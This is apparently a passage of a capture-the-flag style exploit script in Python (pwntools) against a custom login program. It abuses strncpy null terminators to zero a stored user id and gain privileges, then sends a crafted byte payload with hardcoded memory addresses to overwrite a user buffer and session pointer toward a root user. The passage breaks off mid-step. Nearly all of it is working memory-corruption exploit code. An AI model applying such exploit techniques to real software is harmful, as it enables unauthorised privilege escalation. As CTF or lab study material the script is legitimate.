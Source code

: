 ```python

# overwrite user structure with user-chosen id: 0
# This overwrites the bytes of the global user-id via the strncpy() call in func.c, 190
# since strncpy adds a null terminator at session.logged_in_user->name[54]
p.sendline(b"changename")
payload=b"\x41" * 50 + b"\x42" * 3
p.sendline(payload)

# Repeat the same for session.logged_in_user->name[53]
p.sendline(b"changename")
payload=b"\x41" * 50 + b"\x42" * 2
p.sendline(payload)

# all bytes in session.logged_in_user->id are now zero, we are privileged
# change name back to original
p.sendline(b"changename")
payload=b"peter" + b"\x0a"
p.sendline(payload)

# ptr to leaked memory we got when logging in peter
delete_mem_chunk = 0x8123490
# ptr to root user: the value which will be written
root_user_addr = 0x8124090
# addresss of the session global var
session_addr = 0x811df58

# this chunk is taken from the stack of change_name() starting at byte 8 of input_username
# (the first eight bytes are defined by root_user_addr and delete_mem_chunk) and a few 
# following bytes, where all 0x00 bytes were replaced by 0xAA so strncpy will copy all of
# them
some_chunk = (
"\x41\x41\x03\xAA\xAA\xAA\xb8\xcc"
"\xff\xff\x18\xAA\xAA\xAA\x01\xAA"
"\xAA\xAA\x6e\xAA\xAA\xAA\xf4\xcf"
"\x11\x08\xAA\xce\xff\xff\x02\xAA"
"\xAA\xAA\xb8\xcd\xff\xff\x6d\xc6"
"\x04\x08\xb1\xcc\xff\xff\xf4\xcf"
"\x11\x08\xb8\xcd\xff\xff\x16\xb6"
"\x04\x08\x90\x63\x68\x61\x6e\x67"
"\x65\x6e\x61\x6d\x65\xAA\xAA\xAA"
"\xAA\xAA\xe7\xab\x06\x08\xf4\xcf"
"\x11\x08\xa8\xb7\x11\x08\xf4\xcf"
"\x11\x08\xc0\x2e\x12\x08\xAA\xAA"
"\xAA\xAA\xAA\xAA\xAA\xAA\x30\x40"
"\x07\x08\x80\x30\x12\x08\x37\x30"
"\x12\x08\xAA\xb7\x11\x08\x74\xad"
"\x06\x08\x08\xAA\xAA\xAA\xf4\xcf"
"\x11\x08\xec\xff\xff\xff\xe0\xd4"
"\x11\x08\x90\x28\x12\x08\xAA\xAA"
"\xAA\xAA\xc4\xbe\x57\xba\x59\x85"
"\x06\x08\xc0\x2e\x12\x08\xAA\xAA"
"\xAA\xAA\x1d\xa6\x06\x08\x30\x40"
)

payload = p32(root_user_addr) + p32(delete_mem_chunk) + bytes(some_chunk, "latin1") + p32(session_addr)

# overwrite Peters user buffer and its user_entry_t
p.sendline(b"changename")
p.sendline(payload)

#
# delete user 4
```